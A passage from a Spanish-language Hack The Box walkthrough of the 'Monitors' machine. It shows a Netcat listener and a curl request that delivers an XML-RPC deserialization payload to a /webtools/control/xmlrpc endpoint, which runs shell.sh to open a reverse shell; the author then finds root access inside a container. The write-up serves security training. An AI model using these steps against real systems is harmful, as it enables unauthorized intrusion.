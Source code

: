 Antes de enviar este segundo _payload_, pondremos nuestra máquina en escucha con `Netcat` para recibir la _reverse shell_:

```
nc -nlvp 443
```

Finalmente, enviamos el segundo _payload_ utilizando `curl` de la misma manera que el primero. Al ejecutarse esta solicitud, el servidor ejecutará el archivo `shell.sh` y obtendremos una _reverse shell_ dentro de la máquina víctima.

```
curl -s https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'> PAYLOAD </serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
```

Una vez dentro de la máquina víctima, podemos confirmar nuestra presencia en el sistema mediante el comando:

```
hostname -I
```

Sin embargo, en lugar de estar directamente en la máquina víctima, nos encontramos dentro de un contenedor, con la dirección IP `172.17.0.2`. Algo curioso es que, al ejecutar el comando _whoami_, descubrimos que somos el usuario `root`, lo que indica que tenemos privilegios de administrador dentro del contenedor.

![60](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/60.png){:class="blog-image" onclick="expandImage(this)"}
